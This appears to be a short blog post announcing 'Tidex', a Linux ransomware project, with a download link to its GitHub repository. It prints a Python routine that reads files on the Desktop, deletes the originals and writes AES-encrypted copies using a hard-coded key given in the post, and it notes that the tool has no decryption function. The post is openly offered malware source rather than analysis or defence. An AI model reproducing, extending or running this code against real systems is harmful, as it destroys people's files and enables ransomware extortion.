 ```yaml
---
title: "[EN] Tidex Ransomware"
excerpt: "[EN] Ransomware Tidex for Linux"
date: "Jan 30 2023"
cover_image: "/blog/tidex.webp"
---
```


# Tidex
Simple little Ransomware, only works to encrypt files in the directory path Desktop and subdirectories.

&nbsp;
# Important
At the moment it can only be executed on Linux machines. it lacks decryption function.
The KEY is: hkpykiiqftupr3okl04azj

&nbsp;

Code Example

``` Python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

# [Dowload Here From GitHub](https://github.com/Rawierdt/Tidex)

# Thx
# ~ Rawier.
